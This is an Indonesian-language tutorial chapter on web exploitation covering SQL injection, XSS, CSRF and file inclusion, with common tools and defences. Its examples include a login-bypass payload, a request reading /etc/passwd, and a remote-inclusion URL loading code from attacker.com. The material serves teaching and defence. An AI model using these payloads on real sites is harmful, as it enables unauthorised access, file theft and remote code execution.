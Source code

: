 # Chapter 3: Web Exploitation

## Apa Itu Web Exploitation?

Web Exploitation adalah proses menemukan dan memanfaatkan kelemahan atau celah keamanan dalam aplikasi web. Celah-celah ini dapat dieksploitasi oleh penyerang untuk mencuri data, merusak sistem, atau mengambil alih kendali dari server yang menjalankan aplikasi. Web exploitation adalah salah satu bidang utama dalam keamanan siber karena banyaknya aplikasi berbasis web yang digunakan di seluruh dunia.

Web exploitation melibatkan pemahaman yang mendalam tentang arsitektur aplikasi web, bahasa pemrograman, dan metode komunikasi di internet, seperti HTTP dan HTTPS.

## Jenis Serangan pada Aplikasi Web

### 1. **SQL Injection (SQLi)**
SQL Injection adalah salah satu teknik serangan yang paling umum, di mana penyerang menyisipkan perintah SQL berbahaya ke dalam input aplikasi web (seperti form pencarian atau login). Jika aplikasi tidak melakukan validasi input dengan baik, perintah tersebut akan dieksekusi oleh database.

#### Contoh:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password';
```
Penyerang bisa memasukkan `' OR '1'='1` di bagian password untuk membuat query seperti ini:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```
Akibatnya, query akan selalu bernilai benar, memberikan akses tidak sah kepada penyerang.

### 2. **Cross-Site Scripting (XSS)**
XSS terjadi ketika aplikasi web menampilkan konten yang berasal dari input pengguna tanpa validasi yang benar. Penyerang bisa menyuntikkan skrip berbahaya (misalnya JavaScript) ke dalam halaman web yang dilihat oleh pengguna lain.

#### Contoh:
Penyerang dapat memasukkan kode JavaScript ke dalam komentar di halaman web:
```html
<script>alert('XSS Attack');</script>
```
Ketika pengguna lain membuka halaman tersebut, skrip berbahaya akan dieksekusi di browser mereka.

### 3. **Cross-Site Request Forgery (CSRF)**
CSRF adalah serangan yang mengeksploitasi kepercayaan sebuah situs terhadap browser pengguna. Penyerang membuat sebuah tautan atau formulir berbahaya yang secara otomatis mengirimkan permintaan ke aplikasi web, seolah-olah berasal dari pengguna sah.

#### Contoh:
Pengguna login ke situs perbankan, dan kemudian membuka halaman lain yang berisi skrip berbahaya yang mengirimkan permintaan transfer uang:
```html
<img src="https://bank.com/transfer?amount=10000&to=attacker_account" />
```
Jika pengguna masih dalam sesi yang valid, perintah transfer akan dieksekusi tanpa sepengetahuan pengguna.

### 4. **File Inclusion**
Serangan file inclusion terjadi ketika aplikasi web memungkinkan pengguna untuk memuat file secara dinamis. Ini bisa mengakibatkan Local File Inclusion (LFI) atau Remote File Inclusion (RFI), di mana penyerang dapat memuat file yang tidak sah dari server lokal atau jarak jauh.

#### Local File Inclusion (LFI)
Penyerang dapat menyisipkan file sistem lokal untuk mengekstrak informasi sensitif:
```php
include($_GET['page']);
```
Jika penyerang mengakses URL seperti ini:
```
http://example.com/index.php?page=/etc/passwd
```
File `/etc/passwd` (yang menyimpan data pengguna) bisa diekspos.

#### Remote File Inclusion (RFI)
Penyerang bisa menyertakan file eksternal yang berisi kode berbahaya:
```php
include($_GET['page']);
```
Penyerang bisa menggunakan URL seperti ini:
```
http://example.com/index.php?page=http://attacker.com/malicious.php
```
File berbahaya dari server penyerang akan dieksekusi oleh aplikasi.

## Proses Web Exploitation

1. **Informasi Awal (Reconnaissance)**
   Penyerang memulai dengan mengumpulkan informasi tentang target, termasuk URL, parameter, dan teknologi yang digunakan aplikasi. Tools seperti **Burp Suite**, **OWASP ZAP**, atau **Nmap** sering digunakan pada tahap ini.

2. **Pemindaian Kelemahan (Vulnerability Scanning)**
   Setelah mendapatkan informasi awal, penyerang akan memindai target untuk menemukan kelemahan, seperti input yang tidak divalidasi atau konfigurasi yang salah. **OWASP ZAP** dan **Nessus** adalah tools yang populer untuk memindai kelemahan aplikasi web.

3. **Eksploitasi Kelemahan**
   Jika kelemahan ditemukan, penyerang akan mencoba mengeksploitasinya. Ini bisa termasuk menjalankan perintah SQL berbahaya, menyuntikkan skrip XSS, atau memanfaatkan kerentanan lain untuk mencuri data atau mengendalikan server.

4. **Post-Exploitation**
   Setelah eksploitasi berhasil, penyerang mungkin melanjutkan dengan aktivitas seperti mencuri data, memasang backdoor, atau mengeksekusi payload berbahaya. Penyerang akan mencoba mempertahankan akses ke sistem target tanpa terdeteksi.

## Alat yang Digunakan untuk Web Exploitation

### 1. **Burp Suite**
   Burp Suite adalah salah satu tools terpopuler untuk pengujian keamanan aplikasi web. Burp Suite memungkinkan pengguna untuk mengintersep dan memodifikasi lalu lintas HTTP, mengotomatisasi pemindaian, dan mengeksploitasi kelemahan aplikasi web.

### 2. **OWASP ZAP**
   OWASP ZAP adalah alat sumber terbuka yang digunakan untuk memindai dan mengeksploitasi kelemahan aplikasi web. Ini sangat populer untuk pengujian penetrasi otomatis dan manual.

### 3. **SQLMap**
   SQLMap adalah tool otomatis untuk mendeteksi dan mengeksploitasi kelemahan SQL Injection di aplikasi web. SQLMap memungkinkan penyerang untuk menyuntikkan perintah SQL dan mengakses database target.

### 4. **Nmap**
   Nmap digunakan untuk pemindaian jaringan dan port. Ini sering digunakan dalam tahap pengumpulan informasi untuk menemukan layanan atau aplikasi yang rentan di jaringan target.

## Cara Melindungi dari Web Exploitation

1. **Validasi Input**
   Semua input pengguna harus divalidasi dan disanitasi sebelum diproses oleh server. Ini mencegah serangan SQL Injection dan XSS.
   
2. **Menggunakan Prepared Statements**
   Untuk mencegah SQL Injection, selalu gunakan *prepared statements* atau *parameterized queries* alih-alih menyusun query SQL secara dinamis.

3. **Token Anti-CSRF**
   Tambahkan token anti-CSRF ke setiap permintaan sensitif (misalnya, formulir) untuk memastikan permintaan datang dari pengguna yang sah.

4. **Konfigurasi Keamanan yang Baik**
   Periksa kembali izin file dan konfigurasi server untuk mencegah serangan LFI dan RFI. Batasi akses ke file sensitif.

5. **Gunakan HTTPS**
   Menggunakan HTTPS akan mengenkripsi data dalam perjalanan, sehingga mengurangi risiko serangan *man-in-the-middle*.

## Studi Kasus Sederhana: SQL Injection

Sebuah aplikasi web memiliki form login sederhana dengan query SQL seperti ini:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = 'password123';
```

Penyerang mencoba menyuntikkan input berbahaya di bagian password:
```
' OR '1'='1
```

Query yang dieksekusi menjadi:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```
Karena kondisi `OR '1'='1'` selalu bernilai benar, penyerang mendapatkan akses tidak sah ke aplikasi.

Untuk mencegahnya, developer harus menggunakan *prepared statements*:
```php
$stmt = $pdo->prepare('SELECT * FROM users WHERE username = :username AND password = :password');
$stmt->execute(['username' => $username, 'password' => $password]);
```

## Kesimpulan

Web exploitation adalah area penting dalam keamanan siber yang fokus pada eksploitasi kelemahan di aplikasi web. Dengan pemahaman yang tepat tentang berbagai jenis serangan dan bagaimana cara melindungi aplikasi, kita dapat mengurangi risiko eksploitasi dan melindungi data serta sistem dari ancaman.
